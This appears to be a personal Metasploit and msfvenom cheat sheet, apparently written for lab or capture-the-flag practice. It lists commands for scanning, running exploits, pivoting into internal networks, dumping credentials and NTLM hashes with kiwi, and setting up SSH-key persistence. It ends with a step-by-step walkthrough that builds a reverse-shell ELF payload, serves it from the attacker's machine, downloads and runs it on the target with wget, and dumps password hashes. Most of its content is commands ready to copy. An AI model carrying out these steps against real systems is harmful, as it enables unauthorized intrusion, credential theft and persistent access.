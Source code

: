 # General

You can `nmap` from metasploit :)
Import nmap scan into MSF
- Export as XML `-oX file.xml`
- `service postgresql start`
- Msfconsole >  `db_status`
- Msfconsole > `db_import [nmap results]`
- OR > `db_nmap [options] [host]` will automatically nmap and store in database
- Msfconsole > `hosts` and msfconsole > `services` will now show the host and running services from the scan

`background` to bg a session
`sessions` to view
`session #` to change

`search local_exploit_suggestion` for post privesc, use a background session

Search suggestions (in addition to strings)
- `search type:exploit`
- `platform:windows`
- `cve:2021`
- `target:2008 smb`
- search payload example: `grep meterpreter grep reverse_tcp show payloads`

Set global options (don't need to enter it again when switching modules)
- `setg RHOSTS [IP]`
- `setg RPORT`

Plugins
- Stored in `/usr/share/metasploit-framework/plugins`
- move a copy of the plugin there (with file extension), and then open msfconsole again and `load [plugin]` (without file extension)

Using `multi/handler`
- when generating an MSFVenom payload that is a reverse shell, using the multi handler as your listener lets you do a meterpreter shell which is more powerful
- set the LHOST and LPORT as the options you used when generating the venom payload
- set the payload to the same module as venom payload (i.e. `windows/meterpreter/reverse_tcp`)

Upgrade regular shell to Meterpreter
- `multi/manage/shell_to_meterpreter`


Pivoting with MSF
- Get foothold on initial machine (assuming meterpreter is possible)
	- determine internal network netmask `ifconfig` or `ipconfig`
	- background session
- Setting a route:
	- use `post/multi/manage/autoroute`
	- set netmask to the internal network you're targeting (ex. `255.255.255.0`)
	- set session to meterpreter session
	- set subnet ex. `/24`
	- run module
	- use `route` to view the route (you will see two routes, one is the external network and one is the internal)
	- to test a target internal IP use `route get [internal IP]` and it should show you that it routes through the meterpreter session number
	- now you can use any module, set the `rhost` to a target internal IP and it will automatically use your route (ex. `scanner/portscan/tcp`)
- Proxychains
	- set up route for meterpreter shell
	- `cat /etc/proxychains4.conf` at the bottom under `#defaults set to "tor"` you should note the port (usually 9050)
	- background the meterpreter shell and `use auxiliary/server/socks_proxy`
	- set `SRVPORT` to port from config file and set `VERSION` to `4a`
	- run the module, it will appear under `jobs`
	- now execute commands but start them with `proxychain` (outside of msf)
- portfwd
	- in the meterpreter (after setting the route) `portfwd add -l 1234 -p 80 -r [target internal network host IP]`
		- this forwards 1234 from our attacker machine to the port 80
		- `nmap -p1234 localhost` will now nmap the port 80 on the target since you set 1234 to forward to 80 on target


Privesc modules
- search `post/linux/gather/[module]`
- or `post/windows/gather/[module]`
- Kiwi plugin for meterpreter
	-  Once you’re in meterpreter (and optimally migrated to a process with correct architecture)
	- `load kiwi` and `?` to show commands
	- `Creds_all` will dump hashes
	- `Lsa_dump_sam` will dump all NTLM


Persistence
- once you have elevated shell/meterpreter: `post/linux/manage/sshkey_persistence`
	- set CREATESSHFOLDER to true
	- might make one in `/root/.msf4/loot/[ssh_key]`


# MSFVENOM

- Staged syntax - `meterpreter/reverse_tcp`
- Stageless syntax - `meterpreter_reverse_tcp`

`msfvenom --list payloads | grep [parameter]`

Ex. `Msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=[IP] LPORT=[port]`
	shell is shell type such as `meterpreter` 
	file format is exe
	name is shell.exe


Detailed Walkthrough for a meterpreter payload in elf format -
1. Syntax for creating meterpreter payload in elf format (attacking machine) - `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
2. Start a python server (attacking machine) - `python3 -m http.server 9000` 
3. Ssh into target machine and download file from the server you just created - `wget http://[attacking_IP]:9000/rev_shell.elf`
4. Change file permissions - `chmod +x rev_shell.elf`
5. On attacking machine, open `msfconsole` and ran `use exploit/multi/handler` to quickly access the exploit we will use to listen.
6. Set payload for the exploit. Use the same file destination from the payload we referenced earlier when we used msfvenom - `set PAYLOAD linux/x86/meterpreter/reverse_tcp`
7. Make sure you set LHOST and LPORT. Use the port you designed it to listen to when you created payload with msfvenom.
8. Run file on target machine with `./[file_name]`
9. Meterpreter session opens on attacking machine on msfconsole.
10. Use a post exploitation module in msfconsole, I used `post/linux/gather/hashdump` to get the other user's hash.
